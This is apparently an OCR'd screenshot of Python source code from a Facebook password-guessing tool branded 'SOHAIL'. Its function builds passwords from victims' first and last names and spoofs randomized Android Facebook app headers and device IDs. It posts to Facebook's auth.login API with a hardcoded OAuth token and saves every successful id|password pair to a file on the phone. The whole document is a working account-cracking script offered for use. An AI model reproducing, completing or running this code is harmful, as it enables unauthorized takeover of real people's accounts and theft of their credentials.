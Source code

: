 def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(f' ')[0]
                        try:
                                ln = names.split(f' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace(f'first',fn.lower()).replace(f'First',fn).replace(f'last',ln.lower()).replace(f'Last',ln).replace(f'Name',names).replace(f'name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print(f'\r\r\033[1;32m [SOHAIL-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-OK.txt','a').write(ids+'|'+pas+'\n')
                                        #cek_apk(session,coki)
                                        oks.append(ids)
                                        break